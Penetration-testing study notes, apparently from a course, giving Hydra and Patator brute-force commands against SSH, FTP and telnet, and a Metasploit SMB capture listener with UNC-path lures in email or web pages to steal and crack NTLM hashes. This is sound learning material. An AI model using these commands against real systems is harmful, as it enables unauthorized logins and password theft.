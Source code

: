 - *Hydra* is another popular login authentication brute forcer, that supports a lot of protocols but also task parallelization.
`hydra -L /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/top_shortlist.tx ssh://192.168.1.2`.
It found the credentials faster than any other tool seen until now.
`hydra -L /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/top_shortlist.tx ssh://192.168.1.2 -T 55`: to specify the number of parallel connections to use (default 16).
Faster scan may seem better, but at the same time, it may not work as efficiently.

- Patator:
`cat /usr/bin/patator | grep "USAGE"`: to see the commands explanations.
`potator ftp_login -h`: to get the (very informative) module usage. `potator ftp_login`: to get a shorter version.
`potator ftp_login host=192.168.1.2 user=FILE0 password=FILE1 0=/usr/share/seclists/Usernames/top_shortlist.txt 1=/usr/share/seclists/Passwords/top_shortlist.txt -x ignore:mesg="Login incorrect."`.
`potator telnet_login`: to see the different syntax to use with telnet.
`potator host=192.168.1.2 inputs='FILE0\nFILE1' 0=/usr/share/seclists/Usernames/top_shortlist.txt 1=/usr/share/seclists/Passwords/top_shortlist.txt`.

### Exploitation - Study Guide

(02/122) Once found vulnerabilities within a target, we can proceed with their exploitation.
Exploits can be categorized in:
- Client-side: usually require user interaction in order to be triggered (open a link, open a file);
- Remote: do not require user interaction and usually affects services listening on the network;
- Local privilege escalation: permit the attacker to gain higher privileges on the machine.

(04/122) *Metasploit* is an exploitation framework that makes easy to access exploits created by the community. It also helps to develop exploits.

(09/122) The authentication protocol used between Windows clients and servers is *NTLM* (still widely used even if nowdays it is replaced by Kerberos).
NTLM is a challenge/response protocol consisting in three messages: Type 1 (negotiation, authentication request), Type 2 (challenge) and Type 3 (authentication, challenge response).
The password is hashed in accordance with different schemes (LM, NTLMv1, NTLMv2), and then the password hash is used to encrypt the challenge and sent back as response (Type 3 message).
DES is used in the LM scheme, instead for NTLMv1 is used MD4, but the scheme is still considered weak.
Most of the time the NTLMv1/v2 hash is sent (using the NTLM protocol) along with the LM hash to ensure backward compatibility.

There are some weaknesses in the scheme used, that can be exploited by an attacker that will impersonate the server (and control the challenge, a fixed one: "1122334455667788").
The aim here is to capture the password hashes and crack them in order to obtain the password plaintext.
`use auxiliary/server/capture/smb`: to create a listening SMB service to both accept incoming connections and send back the fixed challenge.
`set JOHNPWFILE <HashesFilename>`: to save the hashes to a file in way to work with John the Ripper tool.

Once the Metasploit listener is up, we can force the client to start a connection to it. To do so, we can embed a UNC path `\\<ServerIP>\\<Share>` (e.g. `\\192.168.1.2\ADMIN$`) into an email or a webpage.
LMHASH and NTHASH are the captured hashes. Now we can start to crack them using John the Ripper: `john --format=netlm <HashesFilename>`.
To quicken the cracking process we can (instead) use rainbow tables: `rcracki_mt -h <First8BytesHash> -t <TreadsNumber> *.rti`, using the first 8 bytes of LMHASH and the tables built for the fixed 8 bytes "1122334455667788", where `-t` options specifies the number of threads to use.
